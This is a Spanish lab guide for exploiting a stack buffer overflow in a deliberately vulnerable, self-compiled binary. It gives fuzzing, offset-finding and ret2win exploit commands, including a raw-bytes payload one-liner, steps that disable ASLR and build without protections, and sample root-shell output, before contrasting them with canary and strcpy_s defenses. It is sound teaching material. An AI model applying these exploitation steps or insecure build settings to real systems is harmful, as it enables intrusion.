

# 🧪 Laboratorio práctico — Del fallo al exploit

Este laboratorio reproduce, de principio a fin, el ciclo de explotación de un
**Stack Buffer Overflow** sobre un binario vulnerable escrito y compilado por ti.
Es la evidencia práctica del capítulo [04 – Caso práctico](../docs/04-caso-practico.md).

> ⚠️ **Solo para laboratorio aislado.** Código deliberadamente inseguro. No lo ejecutes
> en una máquina de producción ni lo uses contra sistemas que no sean tuyos.

---

## 📂 Contenido

| Archivo | Para qué sirve |
|---------|----------------|
| `src/vulnerable.c` | Código vulnerable **fiel al manual** (Windows/MinGW, `strcpy`) |
| `src/corregido.c` | Versión corregida **fiel al manual** (`strcpy_s`) |
| `src/vuln_linux.c` | Versión adaptada a Linux para practicar rápido (incluye `win()` para *ret2win*) |
| `Makefile` | Compila los binarios de laboratorio en 32 bits |
| `fuzzer.py` | Envía entradas crecientes hasta provocar el crash (fase 1) |
| `find_offset.py` | Genera patrón cíclico y calcula el **offset exacto** de EIP |
| `exploit.py` | Plantilla de exploit (*ret2win*) que demuestra control de flujo |
| `capturas/` | Aquí van tus capturas de pantalla (ver más abajo qué capturar) |

---

## 0. Requisitos del entorno

Recomendado: una VM Linux de laboratorio (Kali, Parrot o Ubuntu) **aislada**, con
**snapshot** antes de empezar.

El montaje depende de la arquitectura de tu host:

### 🅰️ Host x86 / x86-64 (PC Intel o AMD)

```bash
sudo apt update && sudo apt install -y gcc-multilib gdb python3 python3-pip
pip install pwntools --break-system-packages    # cyclic(), process(), etc.
```

### 🅱️ Host ARM64 (Mac con Apple Silicon → Kali ARM64)

En ARM64 **no existe `gcc-multilib`**: no se puede compilar x86-32 de forma nativa.
La solución (fiel al manual, sigue siendo x86/EIP) es **compilar con el cross-compiler
i686 en estático** y **ejecutar bajo QEMU**:

```bash
sudo apt update
sudo apt install -y gcc-i686-linux-gnu qemu-user qemu-user-static \
                    binfmt-support gdb-multiarch file
pip install pwntools --break-system-packages    # opcional
```

> Con `qemu-user-static` + `binfmt-support`, los binarios i386 se ejecutan de forma
> transparente (`./build/vuln_linux` funciona sin escribir `qemu-i386` delante), lo que
> permite usar `fuzzer.py` y `exploit.py` sin cambios. Para depurar sí usarás
> `qemu-i386 -g` + `gdb-multiarch` (ver §4).

En ambos casos, desactiva **ASLR** mientras practicas:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## 1. Compilar el binario vulnerable

```bash
cd labs
make linux          # Host x86: build/vuln_linux (32 bits, sin canary/PIE, execstack)
# --- o, en host ARM64 / Apple Silicon: ---
make cross          # compila x86-32 ESTÁTICO para ejecutar bajo QEMU
```

Comprueba las protecciones:

```bash
checksec --file=build/vuln_linux
```

> ⚠️ **Nota sobre `checksec` en binarios estáticos (host ARM):** al enlazar en estático
> (`-static`), `checksec` puede mostrar **"Canary found"** como *falso positivo*, porque
> detecta el símbolo `__stack_chk_fail` que trae la glibc incrustada. Tu `vulnerable_function`
> se compiló con `-fno-stack-protector`, así que **no tiene canary**. Pruébalo:
> ```bash
> i686-linux-gnu-objdump -d build/vuln_linux | grep -A25 '<vulnerable_function>:'
> #  -> verás 'call ...strcpy' y NINGUNA '__stack_chk'
> ```
> La prueba definitiva llega en §2: el crash es **SIGSEGV (señal 11)**, no SIGABRT (señal 6).
> Si hubiera canary activo, veríamos "stack smashing detected".

> 📸 **Captura 1** → guarda la salida de `checksec` (y, en ARM, el `objdump`) en `capturas/01-checksec.png`.

### (Opcional) Compilar también la versión del manual en Windows

En una VM Windows con [MinGW](https://sourceforge.net/projects/mingw/):

```bat
cd C:\MinGW\bin
gcc -m32 -fno-stack-protector -z execstack -o vulnerable.exe vulnerable.c
gcc -m32 -o corregido.exe corregido.c
```

---

## 2. Confirmar el comportamiento normal vs. el crash

```bash
./build/vuln_linux hola
# -> Has introducido: hola
# -> Programa finalizado correctamente.

./build/vuln_linux $(python3 -c 'print("A"*500)')
# -> Segmentation fault (core dumped)    <-- ¡la entrada corrompe la pila!
```

> En host ARM64 el binfmt ejecuta el binario x86 de forma transparente; también puedes
> ser explícito: `qemu-i386 ./build/vuln_linux hola`. El crash aparece como
> `qemu: uncaught target signal 11 (Segmentation fault)`.

> 📸 **Captura 2** → `capturas/02-ejecucion-normal-vs-crash.png`.

---

## 3. Fuzzing: localizar el umbral del fallo

```bash
python3 fuzzer.py ./build/vuln_linux --start 50 --step 50 --max 1000
```

Salida típica (ejemplo):

```
[+] len=50    -> OK (rc=0)
[+] len=60    -> OK (rc=0)
[!] len=80    -> CRASH (rc=-11)
...
[+] Primer CRASH observado alrededor de 80 bytes.
```

> 📸 **Captura 3** → `capturas/03-fuzzing.png`.

---

## 4. Analizar el crash y calcular el offset exacto de EIP

### 🅰️ Host x86 nativo — GDB directo

```bash
PATRON=$(python3 find_offset.py gen 200)
gdb -q ./build/vuln_linux
```

```gdb
(gdb) run $PATRON
...
Program received signal SIGSEGV, Segmentation fault.
(gdb) info registers eip
eip   0x6161616b   0x6161616b          # <- valor de ejemplo
```

### 🅱️ Host ARM64 (QEMU) — gdbstub en dos terminales

Como el binario es x86 emulado, GDB se conecta al servidor de depuración de QEMU (`-g`):

**Terminal 1** (se queda esperando al depurador):
```bash
qemu-i386 -g 1234 ./build/vuln_linux $(python3 find_offset.py gen 150)
```

**Terminal 2**:
```bash
gdb-multiarch -q build/vuln_linux
```
```gdb
(gdb) set architecture i386
(gdb) target remote localhost:1234
(gdb) continue
...
Program received signal SIGSEGV, Segmentation fault.
(gdb) info registers eip
eip   0x61616174   0x61616174          # <- valor real de este laboratorio
```

### Resolver el offset (ambos casos)

Resuelve el offset con el valor de EIP capturado:

```bash
python3 find_offset.py find 0x61616174
# [+] Offset exacto: 76
# [>] Estructura del payload: b'A'*76 + <4 bytes EIP> + <resto>
```

Verifica el control **total** enviando `A*76 + BBBB` y confirmando `eip = 0x42424242`:

```bash
# Host x86 nativo:
gdb -q ./build/vuln_linux
(gdb) run $(python3 -c 'print("A"*76 + "BBBB")')
(gdb) info registers eip        # eip = 0x42424242

# Host ARM64 (QEMU), dos terminales:
#   T1:  qemu-i386 -g 1234 ./build/vuln_linux $(python3 -c 'print("A"*76 + "BBBB")')
#   T2:  gdb-multiarch -q build/vuln_linux
#        (gdb) set architecture i386
#        (gdb) target remote localhost:1234
#        (gdb) continue
#        (gdb) info registers eip     # eip = 0x42424242 -> control TOTAL
```

> 📸 **Captura 4** → `capturas/04-control-eip.png` (la que muestra `eip = 0x42424242`).
> Esta es **la captura clave** de todo el trabajo.

---

## 5. Explotación: redirigir el flujo a `win()` (ret2win)

Obtén la dirección real de `win()`. El binario de este laboratorio **la imprime al
arrancar** (`[i] Direccion de win(): 0x...`); también puedes sacarla con:

```bash
# Host x86:    nm -n build/vuln_linux | grep ' win'
# Host ARM64:  i686-linux-gnu-nm -n build/vuln_linux | grep ' win'
```

Ajusta `exploit.py` con TUS valores y lánzalo (en host ARM corre vía binfmt):

```bash
sed -i 's/^OFFSET = .*/OFFSET = 76/'            exploit.py
sed -i 's/^WIN_ADDR = .*/WIN_ADDR = 0x08049895/' exploit.py
python3 exploit.py ./build/vuln_linux
```

> ⚠️ **Pasar bytes crudos, no str.** La dirección tiene bytes altos (`0x95`, `0x98`).
> Si se decodificaran a texto, `subprocess` los recodificaría a UTF-8 y corromperían
> el payload. `exploit.py` ya pasa los **bytes crudos** por `argv`. Equivalente directo:
> ```bash
> python3 -c 'import subprocess, struct; p=b"A"*76+struct.pack("<I",0x08049895); subprocess.run([b"./build/vuln_linux", p])'
> ```

Si todo encaja, el flujo salta a `win()` y obtienes una shell:

```
[+] win() alcanzada: control de flujo conseguido.
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

> 📸 **Captura 5** → `capturas/05-ret2win-shell.png`.

---

## 6. Contraste con el binario protegido y el corregido

Compila la **misma** vulnerabilidad pero con canary activado y observa la diferencia:

```bash
# Host x86 nativo:
make protegido
./build/vuln_protegido $(python3 -c 'print("A"*200)')

# Host ARM64 / Apple Silicon:
make cross-protegido
qemu-i386 ./build/vuln_protegido $(python3 -c 'print("A"*200)')
```

Salida esperada:

```
*** stack smashing detected ***: terminated
qemu: uncaught target signal 6 (Aborted) - core dumped
```

El detalle clave: el crash pasa de **señal 11 (SIGSEGV)** —corrupción de la dirección de
retorno— a **señal 6 (SIGABRT)** —el canary detecta la sobrescritura y aborta **antes** de
usar esa dirección. El mismo ataque que daba shell de root, aquí muere en seco.

- **Stack canary** → detecta el desbordamiento y aborta.
- **PIE + ASLR** → aleatorizan direcciones: `WIN_ADDR` fija deja de valer sin un *infoleak*.
- La versión `corregido.c` ni siquiera desborda: `strcpy_s`/`snprintf` recortan la entrada.

> 📸 **Captura 6** → `capturas/06-canary-detecta.png`. Es la prueba visual de por qué
> el bastionado (capítulo 7) funciona.

---

## ✅ Resumen del recorrido



Cada paso de este laboratorio corresponde a una fase de la
[metodología](../docs/01-metodologia.md). Esa es la idea: que la teoría y la práctica
sean la misma cosa vista desde dos ángulos.
